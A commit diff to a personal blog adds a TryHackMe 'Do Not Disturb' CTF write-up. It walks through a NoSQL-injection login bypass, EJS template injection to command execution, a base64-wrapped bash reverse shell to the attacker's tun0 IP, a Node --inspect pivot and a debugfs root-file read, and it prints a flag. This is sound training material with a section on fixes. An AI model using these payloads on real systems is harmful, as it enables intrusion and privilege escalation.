

Before and after one commit to mariustudor07/mariustudor07.github.io, a Jekyll site: the page built from blog.html, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Add Do Not Disturb writeup (THM Hacker Holidays boot2root)
Four-technique chain: NoSQLi login bypass, EJS SSTI to RCE, exposed Node
--inspect pivot, disk group + debugfs for root. Answer payloads hidden behind
click-to-reveal spoiler bars. Adds briefing/comic/login images and documents
the spoiler convention in the writeup template.

````diff
--- a/_posts/2026-06-28-htb-writeup-template.md
+++ b/_posts/2026-06-28-htb-writeup-template.md
@@ -62,3 +62,27 @@
 - What was the intended path, and did I find it?
 - Where did I waste time, and what would I check sooner next time?
 - One technique worth remembering for the next box.
+
+## Note to self: hiding answers behind spoiler bars
+
+When I want to show the methodology but not hand over the exact payload off the rip,
+I hide the "answer" command behind a click-to-reveal bar. Reader gets the reasoning,
+then clicks to see the actual string. Like <span class="spoiler">this</span>.
+
+Usage, in prose only (NOT inside a ``` fenced code block, the HTML renders literally
+in there and won't hide anything):
+
+`The body that logged me in was <span class="spoiler"><code>username=x&amp;password[$ne]=null</code></span>.`
+
+Rules I keep tripping over:
+- Wrap the value in `<code>` inside the span if I want it monospaced.
+- HTML-escape special characters or they break the markup: `<` becomes `&lt;`,
+  `>` becomes `&gt;`, `&` becomes `&amp;`. So an EJS payload like `<%= 7*7 %>`
+  is written `&lt;%= 7*7 %&gt;` inside the span.
+- Keep the recon and standard commands shown normally in code fences. Only cover the
+  lines that actually pop the box (final payloads, decoded flags, reused creds).
+- Add a one-line heads-up near the top of the post telling readers the grey bars are
+  click-to-reveal, so they know it's deliberate.
+
+Styling is in `assets/style.css` (`.spoiler`) and the click/keyboard wiring is in
+`assets/reveal.js`, both already loaded site-wide, so nothing extra to import per post.
--- /dev/null
+++ b/_posts/2026-08-02-thm-do-not-disturb.md
@@ -0,0 +1,340 @@
+---
+layout: post
+title: "THM: Do Not Disturb"
+date: 2026-08-02 19:45:00
+category: "Web Exploitation"
+difficulty: "Medium"
+tags: [thm, hacker-holidays, boot2root, nosql-injection, ssti, ejs, rce, node-inspector, privilege-escalation, disk-group]
+excerpt: "My most complete box yet, a four-technique chain: a NoSQL injection to bypass the login, EJS server-side template injection for code execution, an exposed Node --inspect debug port to pivot users, and finally the disk group plus debugfs to read the root flag straight off the raw partition. The user flag came fast. Root felt like a hard box, and that gap is the whole story."
+---
+
+<figure class="figure-narrow">
+  <img src="{{ '/assets/img/do-not-disturb-briefing.png' | relative_url }}" alt="TryHackMe room page: Concierge Briefing for Do Not Disturb. Category Boot2Root, difficulty Medium, 90 points. Sign's on the door, room's active, you have access you were never given, and so does he. The anomalies stop being anomalies: a session goes warm on a sunbed and a stranger sits down in it, a wallet signs a transaction its owner didn't authorise, a shell on the beach answers back. The Byte Lotus poolside platform tracks every cabana, every sunbed, every warm session. Someone is already inside, follow his footprints in, climb the way he climbed, and recover both flags. Itinerary: find the user flag and the root flag.">
+  <figcaption>The briefing for Do Not Disturb. "Follow his footprints in, climb the way he climbed" is the four-step chain written as flavour, one technique per user, a login bypass all the way up to root.</figcaption>
+</figure>
+
+This is the most complete box I've done so far, four separate techniques stacked
+into one chain, and it's the first time a room genuinely felt like it had a beginner
+half and an expert half bolted together. The user flag came quick. The privesc made
+me feel like I was staring at a much harder box than the Medium rating suggested. I
+want to be honest about that gap, because I think it's the real lesson here, more than
+any single payload.
+
+It's part of TryHackMe's Hacker Holidays 2026 event, same Byte Lotus universe as the
+other rooms, this time a poolside cabana booking platform. The briefing does its usual
+thing of hiding the vulnerability in holiday language: "a session goes warm, a wallet
+signs a transaction its owner didn't authorise, follow his footprints, climb the way
+he climbed." That last line turned out to be almost literal. This is a four-step climb,
+and each step is a different user. Standard disclaimer, this is a deliberately
+vulnerable lab built to be broken for practice, nothing here is a real service.
+
+<figure class="figure-narrow">
+  <img src="{{ '/assets/img/do-not-disturb-comic.png' | relative_url }}" alt="Event comic titled 02 Drift: things are not fine, several things are actively wrong, everyone is still acting like things are fine. A hooded Bitcoin-themed character notices their wallet balance looks different and sees a CryptoCabana Wallet transaction of minus 3.4 BTC marked confirmed that they did not authorise while they were at the buffet. A grey hooded figure with a laptop says it will pull the authentication logs, then concludes this isn't one compromised wallet and whoever is already inside has been moving for far longer than you have.">
+  <figcaption>The event comic for this chapter, "Drift." The whole thing is a metaphor for the box: a warm session someone else sits down in (the login bypass), a transaction the owner didn't authorise (running as a user you shouldn't be), and an attacker who's already inside and has been moving between accounts. Pull the logs, follow the footprints, climb the same way.</figcaption>
+</figure>
+
+*One note before you read on. A few of the exact payloads below are hidden behind grey
+bars like <span class="spoiler">this</span>. Click them (or tab to them and press
+Enter) to reveal. The idea is you get the methodology and the reasoning first, and you
+get a shot at working out the actual command yourself before you peek. Hints, not
+answers off the rip. The recon and the standard commands are all shown normally, it's
+only the "here's the exact string that pops it" lines that are covered.*
+
+## Enumeration
+
+Full scan first, as always:
+
+```bash
+sudo nmap -sC -sV -A <TARGET_IP>
+```
+
+Two ports:
+
+```
+22/tcp open  ssh   OpenSSH 9.6p1 Ubuntu
+80/tcp open  http  Node.js (Express middleware)
+```
+
+The port 80 banner is the whole opening move. `Node.js (Express middleware)` tells me
+this is a Node/Express app, not PHP, not Python. That one fact shapes everything I look
+for later: the injection styles, the template engine, the privesc. Match the vuln to
+the stack, that lesson keeps paying out.
+
+SSH I filed away, no creds. On to directory busting:
+
+```bash
+gobuster dir -u http://<TARGET_IP> \
+  -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,html
+```
+
+The interesting hit:
+
+```
+/logout   (Status: 302) [--> /]
+/staff    (Status: 403) [Size: 1547]
+```
+
+A **403 on `/staff`**. That's the target painted on the wall. There's a staff area I'm
+not allowed into, and the front page is just a login form. So the job is clear: become
+staff.
+
+## Step 1: NoSQL injection to bypass the login
+
+<figure>
+  <img src="{{ '/assets/img/do-not-disturb-login.png' | relative_url }}" alt="The Byte Lotus Poolside login page. A cream and teal themed form headed 'Byte Lotus, reserve a cabana, claim a sunbed, the pool remembers your usual.' Two fields, 'Staff / Guest ID' pre-filled with the placeholder text 'attendant', and an empty 'Passphrase' field, with a teal Sign in button. Footer reads 'Byte Lotus never forgets, Stay Noticed'.">
+  <figcaption>The only door in: the poolside login. Notice the ID field's placeholder is literally "attendant," the staff account. That's the username I fed the NoSQL injection, the passphrase is the part I never needed to know.</figcaption>
+</figure>
+
+The login form on the homepage posts a username and password. My instinct these days is
+to figure out what's behind it before I throw anything at it. Node app, login that
+checks a username and password pair, that pattern very often means a MongoDB-style
+document store, and those are famously vulnerable to NoSQL injection when the developer
+passes user input straight into the query.
+
+The trick with NoSQL injection is that the query is an object, not a string. A normal
+login does something like "find one record where username equals X and password equals
+Y." But if the app builds that query out of your raw input, you can smuggle in an
+**operator** instead of a value. Express's body parser has a quirk that makes this easy:
+if you send `password[$ne]=null` as form data, Express doesn't give the app the string
+`"null"`, it builds a nested object `{ password: { $ne: null } }`. And `$ne` means "not
+equal." So the query silently turns into "find a user whose password is not equal to
+null," which is every user with a password. You've replaced "the password must match"
+with "the password just has to exist."
+
+I confirmed the exact request in Burp Repeater. The body that logged me straight in as
+the staff user:
+
+<span class="spoiler"><code>username=attendant&amp;password[$ne]=null</code></span>
+
+That came back with a 302 redirect to `/staff` and a session cookie. Worth flagging one
+thing I got wrong in my head at first: the briefing's "a wallet signs a transaction its
+owner didn't authorise" made me expect a JWT, some signed token I'd have to forge. It
+isn't. It's a plain Express server-side session (`connect.sid`), the signing talk was
+just theme. Don't let the flavour text send you chasing a technique that isn't there.
+
+One detail I only understood after reading the app source later (it's world-readable
+once you're on the box): the `attendant` account's password is generated with
+`crypto.randomBytes(18)` on every boot. It's random and different each time the box
+starts. So brute force was never going to work, the injection was the *only* door.
+That's a nice bit of design, it forces you to learn the actual bug.
+
+## Step 2: EJS server-side template injection to RCE
+
+Inside `/staff` there's a "confirmation message" feature. You type a template, it renders
+a preview with your name filled in. The label literally says it uses EJS and to use
+`<%= guest %>` to personalise the message. So the app is taking my input and feeding it
+to a template engine. That's the setup for server-side template injection.
+
+SSTI is what happens when user input is treated as template code instead of template
+data. If I'm supposed to type `<%= guest %>` and it evaluates that, what happens if I
+type an expression? I started with the classic harmless probe:
+
+```
+<%= 7*7 %>
+```
+
+The preview came back as `49`. Not the text `7*7`, the *result* `49`. That means my input
+is being evaluated as EJS, and EJS expressions are just JavaScript. From "it runs my
+JavaScript" to "it runs my system commands" is one step in Node, because I can reach into
+`child_process` and call out to the shell. The payload that ran `id`:
+
+<span class="spoiler"><code>&lt;%= process.mainModule.require('child_process').execSync('id').toString() %&gt;</code></span>
+
+(One gotcha you'll hit here and again later: a bare `require` isn't always in scope, so
+`process.mainModule.require` is the reliable way to get at it.) The preview printed the
+output of `id`, running as the user **poolside** (uid 996). That's real code execution.
+
+The user flag was actually reachable from right here without even getting a shell, since
+I could run any command through the preview. `cat /home/*/user.txt` through the same
+payload printed it:
+
+```bash
+cat /home/*/user.txt
+# THM{[redacted]}
+```
+
+Redacted as always, the path is the point. But a preview box is an awful place to work,
+so I used the same SSTI to fire a proper reverse shell. Same technique as I've used
+before, base64-wrap a bash reverse shell so the quotes and redirects survive the trip
+through the parser, then decode and run it on the target:
+
+```bash
+echo -n 'bash -i >& /dev/tcp/<TUN0_IP>/4444 0>&1' | base64
+# feed <BASE64> into: echo <BASE64> | base64 -d | bash   (via the SSTI payload)
+```
+
+Listener on my side:
+
+```bash
+nc -lvnp 4444
+```
+
+Caught the shell as poolside, upgraded it to a real TTY with the usual
+`python3 -c 'import pty; pty.spawn("/bin/bash")'` then `stty raw -echo; fg` dance, and
+started enumerating properly.
+
+## Step 3: pivot to pipelinesvc through an exposed Node inspector
+
+Landing as `poolside`, `sudo -l` gave me nothing (it wanted a password I didn't have).
+So this is the enumeration grind, and this is where the box stops being friendly. There's
+no login form telling you where to look, no 403 painting a target. You just have to know
+what to check. I did it by hand this time, which is good practice, but I'll say up front
+that a tool like linpeas would have surfaced the next vector automatically. Doing it
+manually is how it becomes yours, though.
+
+Poking around `/home` showed a second non-root user, **pipelinesvc**, with a home
+directory I couldn't read. So there's somewhere to pivot to. Looking at what
+pipelinesvc actually owns and runs:
+
+```bash
+find / -user pipelinesvc 2>/dev/null | grep -v /proc
+systemctl cat lotus-telemetry.service
+```
+
+That service definition is the whole vulnerability, sitting in plain text:
+
+```
+User=pipelinesvc
+ExecStart=/usr/bin/node --inspect=127.0.0.1:9229 processor.js
+```
+
+The `--inspect` flag starts Node's debugging inspector. It's a wonderful development
+tool and a catastrophe in production, because anyone who can reach that port can attach a
+debugger to the running process and execute arbitrary JavaScript **inside it**, which
+means as whatever user the process runs as. Here that's pipelinesvc, and the port is
+9229 on localhost. I'm already on localhost. I confirmed it was listening and that it
+was really a Node inspector:
+
+```bash
+ss -tlnp | grep 9229
+curl -s http://127.0.0.1:9229/json
+```
+
+The JSON came back describing a live `node` debug target for `processor.js`. Then I just
+attached to it with Node's own client:
+
+```bash
+node inspect 127.0.0.1:9229
+```
+
+At the `debug>` prompt you can run code in the target's context with `exec`. This is where
+the `require` gotcha bit me first, `exec require(...)` threw `ReferenceError: require is
+not defined`. The version that worked, reaching `require` through `process.mainModule`:
+
+<span class="spoiler"><code>exec process.mainModule.require('child_process').execSync('id').toString()</code></span>
+
+That printed:
+
+```
+uid=995(pipelinesvc) gid=995(pipelinesvc) groups=995(pipelinesvc),6(disk)
+```
+
+Two things in that one line. I'm now executing as pipelinesvc, and, more importantly,
+pipelinesvc is in the **`disk`** group. Hold that thought, it's the whole endgame. I used
+the same `exec` to fire a second reverse shell (to a new port, with a fresh listener) so I
+had a comfortable pipelinesvc shell to work from.
+
+## Step 4: root via the disk group and debugfs
+
+The `disk` group looks harmless. It is not. Being in the `disk` group grants read (and
+write) access to the raw block devices, the actual disk, underneath the filesystem. And
+file permissions live *inside* the filesystem. If you can read the raw device, you can
+read every byte on it, including files you have no permission to open the normal way,
+like `/root/root.txt`. The permission check never happens because you're going around
+the filesystem entirely. As the flag ends up telling you, raw disk access is too much to
+hand out.
+
+The tool for this is `debugfs`, an ext filesystem debugger that'll happily open a block
+device and let you cat files out of it. The only fiddly part is pointing it at the right
+device, and this is where I flailed for a bit, so here's the honest version. I first
+guessed `/dev/sda1` (nothing there, wrong name on this VM) and then `/dev/root` (permission
+denied, because that symlink is `brw-------`, root only). What I should have done from the
+start is just ask the system what the root filesystem actually sits on:
+
+```bash
+mount | grep ' / '
+# /dev/nvme0n1p1 on / type ext4 (rw,relatime,discard)
+ls -la /dev/nvme0n1p1
+# brw-rw---- 1 root disk 259, 2 ... /dev/nvme0n1p1
+```
+
+There it is. The real partition is `/dev/nvme0n1p1`, and crucially its group is `disk`
+with group read/write (`brw-rw----`). I'm in the `disk` group. So I can open it. The
+command that read the root flag straight off the raw disk, no root, no password, no
+opening the file the normal way:
+
+<span class="spoiler"><code>debugfs -R "cat /root/root.txt" /dev/nvme0n1p1</code></span>
+
+And out came the flag:
+
+<span class="spoiler"><code>THM{r4w_d1sk_4cc3ss_w4s_t00_much}</code></span>
+
+I'm leaving that one readable-on-click because the flag itself is the punchline. The same
+trick would read `/root/.ssh/id_rsa` for a full interactive root shell if I wanted to go
+further, but the flag was the objective.
+
+## The honest bit: why the user was easy and root was hard
+
+This is the part I actually want to write down. The user flag took me a fraction of the
+time the root did, and I don't think that's a coincidence, I think it's how these boxes
+are shaped, and it's worth understanding as a beginner.
+
+Web exploitation is pattern-rich and, more importantly, feedback-rich. I type `7*7`, I
+see `49`, I *know* I'm on the right track and I iterate from there. NoSQL injection and
+SSTI both give you a response to every probe. You're in a conversation with the app.
+That tight loop of "try, observe, adjust" is exactly what makes web stuff approachable
+for a beginner, you're never flying blind for long.
+
+Privesc has none of that. There's no prompt asking you a question, no error nudging you
+toward the answer. It's `find` this, `cat` that, read a service file, and *recognise* that
+`--inspect` on a service or membership of the `disk` group is a way in. Those two vectors
+are pure prior knowledge: you either know that an exposed Node inspector is code execution
+as that user, and that the disk group plus debugfs is a filesystem-permission bypass, or
+you don't, and no amount of poking the box will draw it out of you the way SSTI draws out
+`49`. That's why the same box can feel Easy at the top and hard at the bottom. The
+difficulty of these machines lives in the privesc, and the privesc rewards reading and
+remembering more than it rewards clever payloads.
+
+Which is the actual takeaway, the reason I'm forcing myself to go read up on both of
+those techniques properly rather than just banking the flag: the transferable skill from
+this room isn't "type this string," it's carrying "exposed --inspect = RCE as that user"
+and "disk group = read any file via debugfs" in my head for the next box, where nothing
+will announce them.
+
+## How to actually fix this box
+
+Every bug here is a real-world one, so it's worth stating the fixes plainly:
+
+- **NoSQL injection:** never build a query straight from user input objects. Cast the
+  password to a string, or validate types, so `password` can only ever be a value and
+  never an operator like `$ne`. The mistake is trusting the shape of the input, not just
+  its contents.
+- **SSTI:** don't render user-controlled templates. If users need to customise a message,
+  give them fixed placeholders you fill in, never a live template engine pointed at their
+  input.
+- **Exposed Node inspector:** never run a production service with `--inspect`. That flag
+  is for local debugging only. Even bound to localhost it's game over for anyone who gets
+  a foothold on the host.
+- **The disk group:** treat membership of `disk` as equivalent to root, because it is. A
+  service account has no business being in it.
+
+## What I took away
+
+- **The banner is a finding.** `Node.js (Express middleware)` set my whole plan: NoSQL
+  injection, EJS template injection, Node-specific privesc. Read the stack first.
+- **NoSQL injection is an operator smuggled in as a value.** `password[$ne]=null` turns
+  "password must match" into "password must exist." Send objects, not strings.
+- **SSTI: prove it with `7*7` before you weaponise it.** `49` in the output is your green
+  light, then reach `child_process` for RCE.
+- **`--inspect` on a service is RCE as that user**, and `process.mainModule.require` is how
+  you get at modules when a bare `require` is out of scope.
+- **The `disk` group is root in disguise.** Raw block-device access plus `debugfs` reads
+  any file on the box, permissions be damned. Point it at the real partition, find that
+  with `mount | grep ' / '`, not by guessing device names.
+- **Difficulty lives in the privesc.** The web half talks back to you, the privesc half
+  makes you already know the answer. Go and learn the vectors, don't just collect them.
+
+> Room: Do Not Disturb on TryHackMe (Hacker Holidays 2026), Boot2Root, Medium, 90 points.
+> Four techniques, four users, one clean climb from a login bypass all the way to reading
+> root off the raw disk. Flags left out (bar the one that's its own punchline, and even
+> that one you have to click).
````
Also changed, not shown: assets/img/do-not-disturb-briefing.png (added), assets/img/do-not-disturb-comic.png (added), assets/img/do-not-disturb-login.png (added).
